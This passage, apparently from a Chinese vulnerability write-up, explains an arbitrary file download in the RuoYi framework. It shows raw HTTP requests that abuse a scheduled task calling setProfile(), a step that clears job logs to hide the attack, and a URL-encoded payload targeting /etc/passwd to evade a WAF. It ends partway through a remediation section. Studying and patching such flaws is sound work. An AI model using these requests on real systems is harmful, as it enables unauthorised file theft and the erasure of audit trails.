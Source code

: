 ```
```  
- 通过调用  
ruoYiConfig.setProfile()  
  
方法，将系统配置文件路径动态修改为攻击者指定的路径（如  
/Users/apple/Desktop/Locks/javafx.txt  
）。  
- 此操作绕过了下载功能原本的“固定目录白名单”限制，将下载路径指向自定义位置。  
#### 执行定时任务（触发配置修改）  
```
POST /monitor/job/run HTTP/1.1Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=7c625b5d-cd39-49fd-87db-bbb64c596c1bUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36Host: 10.40.107.67Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2Content-type: application/x-www-form-urlencodedContent-Length: 9Connection: closejobId=117
```  
- 立即执行  
jobId=117  
  
对应的定时任务，触发  
ruoYiConfig.setProfile()  
  
方法调用，完成配置文件路径的修改。  
- 修改后，系统将从新的配置路径（攻击者指定路径）读取文件。  
#### 清理任务日志（擦除攻击痕迹）  
```
POST /monitor/jobLog/clean HTTP/1.1Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=7c625b5d-cd39-49fd-87db-bbb64c596c1bUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36Host: 10.40.107.67Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2Content-type: application/x-www-form-urlencodedContent-Length: 0Connection: close
```  
- 删除任务执行日志，避免管理员发现恶意任务记录。  
- 此步骤非漏洞必要环节，但常用于隐蔽攻击行为。  
#### 触发任意文件下载  
```
GET /common/download/resource?resource=2.txt HTTP/1.1Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=7c625b5d-cd39-49fd-87db-bbb64c596c1bUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36Host: 10.40.107.67Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2Connection: close
```  
- 下载功能仅校验“配置文件中的路径”，未对动态修改后的路径进行二次白名单校验。  
## bypass  
  
对路径参数进行 URL 编码或 Unicode 编码，绕过 WAF 检测：  
```
invokeTarget=ruoYiConfig.setProfile('%2F%65%74%63%2F%70%61%73%73%77%64')
```  
## 修复  
1. **官方补丁**  
：  
- 升级若依至  
**4.7.6 以上版本**  
，官方已修复权限校验和路径白名单问题。  
1. **代码级修复**  
：  
- **权限校验**  
：对  
/monitor/job/add  
  
